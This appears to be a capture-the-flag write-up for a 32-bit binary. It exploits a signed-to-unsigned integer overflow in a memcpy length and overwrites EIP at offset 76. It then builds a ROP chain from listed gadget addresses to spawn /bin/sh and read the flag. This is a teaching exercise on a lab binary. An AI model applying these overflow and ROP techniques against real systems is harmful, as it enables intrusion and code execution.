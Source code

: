 # Exploitation in four steps

## Step 1 : Binary analysis

#### int main(int ac, char **av)

- the binary reserves two 512-bytes buffers on the stack and zeroes out their contents
- it asks the user how long is its name, then reads 500 characters into the first buffer
- it asks the user what is its name, then reads 500 characters into the second buffer
- it calls atoi on the first buffer and stores the result in an int
- if the result is less than 16, it calls the greet function with the second buffer as the first parameter and the atoi result \* 4 as the second parameter
- otherwise, it prints that the size is too long and exits

#### int greet(buf2, size)

- reserves a 64 bytes-long buffer on the stack
- writes a null byte at the end of it
- does a memcpy from buf2 to the 64-bytes buffer with size as a third argument
- greets the user with "Hello" followed by the user's name (taken from the 64-bytes buffer)
- returns to main

## Step 2 : integer overflow from int to size_t

The binary will not copy more than 15 \* 4 = 60 bytes from argv[2] to the buffer. This can however be bypassed, as atoi returns a signed int and memcpy takes a size_t (unsigned int)

Which means we can make the memcpy write past the buffer if we give it an input of INT_MIN + payload_size / 4

## Step 3 : Overwriting EIP

We're going to write ~60 chars past the buffer, this should be enough to overwrite anything.

The first parameter is going to be INT_MIN + 120 / 4 = -2147483648 + 30 = -2147483618

```
$ cyclic 120
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
$ pwndbg ./pwn1
How long is your name ?
-2147483618
And what is your name ?
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
Program received signal SIGSEGV, Segmentation fault.
[...]
EIP = 0x74616161 (-> 'taaa')
> cyclic -l taaa
Finding cyclic pattern of 4 bytes: b'taaa' (hex: 0x74616161)
Found at offset 76
```

We need to write 76 chars to overwrite EIP.

A quick checksec on the binary :

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

We don't know if ASLR is enabled on the remote server and the stack is not executable : this calls for a ROPchain.

## Step 4 : building the ROPchain

We have enough information now to know what our exploit is going to look like : 76 bytes of padding followed by our ROPchain.

Our ROPchain's structure is going to be :

- Find the address of a writable segment (like .data)
- Write /bin/sh in it and null terminate it
- Push this address to EBP
- Push 0 to ECX
- syscall execve (which means putting the corresponding syscall number in EAX and calling it by executing an int 0x80 instruction)

In 32-bits, execve's call number is 11 as per https://syscalls.w3challs.com/?arch=x86, which means we will to put 11 in eax before the syscall, either by repeating an inc gadget or finding the corresponding add or mov gadget.

We have the binary so we can extract the gadgets with ROPgadget. We primarily need the basics of a ROPchain ("pop <registers> ; ret" - "int 0x80" - "xor eax, eax ; ret" and a write-what-where)

```
$ ROPgadget --binary pwn1 > gadgets.txt
$ cat gadgets.txt | grep ret | grep 'pop eax'
[...]
0x08052a48 : pop eax ; ret
[...]
```

We have our first gadget, now we need to repeat the process until we have enough to build the full ROPchain.

The write-what-where gives us a little headache as we can't find a proper gadget, but we can get around it by using an xchg instruction to swap the registers' content.

The final gadget list is going to look like this :

```
    0x080a71ab # xchg edx, eax ; ret
    0x0804901e # pop ebx ; ret
    0x080647f4 # pop ecx ; add al, 0xf6 ; ret
    0x0805f80a # mov dword ptr [edx], eax ; ret
    0x08070254 # mov dword ptr [eax], edx ; ret
    0x08052a48 # pop eax ; ret
    0x0805aae5 # xor edx, edx ; mov eax, edx ; ret
    0x08057b80 # xor eax, eax ; ret
    0x08086c09 # nop ; inc eax ; ret
    0x08049c02 # int 0x80
```

We're also going to need an address in the .data segment (writable) to store the "/bin/sh" string that system is going to take as an argument.

```
$ readelf -S pwn1 | grep " .data "
[18] .data             PROGBITS        080ec000 0a3000 000e9c 00  WA  0   0 32
So we have :
    0x080ec000 # .data start
    0x080ec004 # .data + 4
Let's also get the /bin/sh string as hex (in little endian) while we're at it and null-terminate it (Cyberchef does wonders here):
    0x6e69622f # "/bin"
    0x0068732f # "/sh\0"
```

Now we're all set. The full ROPchain can be found in the `exploit.py` script, along with some pwntools magic to put it together.

## Step 5 : profit

```
./exploit.py 
[+] Starting local process './pwn1': pid 358287
[*] Switching to interactive mode
$ cat flag.txt
C0ngr4tz!!!
``` 